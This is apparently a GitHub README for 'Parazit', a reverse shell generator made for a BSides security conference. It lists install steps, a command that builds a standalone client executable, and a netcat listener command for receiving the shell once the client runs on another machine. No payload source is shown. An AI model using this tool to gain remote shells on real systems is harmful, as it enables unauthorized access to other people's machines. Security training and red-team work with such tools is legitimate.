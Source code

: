 # Parazit

![parazit_log](/_assets/parazit_logo.jpg)

Reverse shell generator.

This project was created for the GDL BSides 2020 conference.

[BSides GDL 2020 Conference Video](https://www.facebook.com/BSidesGDL/videos/376897363393242)

# Quickstart
## Install (Linux/OSX)

**Dependencies**
- Python 3.7+
- virtualenv
- netcat

For install open a terminal and type the following commands:

```sh
virtualenv -p python3 env/
source env/bin/activate
pip install requirements.txt
```

### Generating client
```sh
python app.py
```

You'll find the standalone executable inside the just created directory `dist` named as `client`.

Type in your machine:
```sh
nc -l 4444
```
Run the standalone executable in the client machine.
<br/>
If everything went fine, a banner with client machine system info will be displayed.    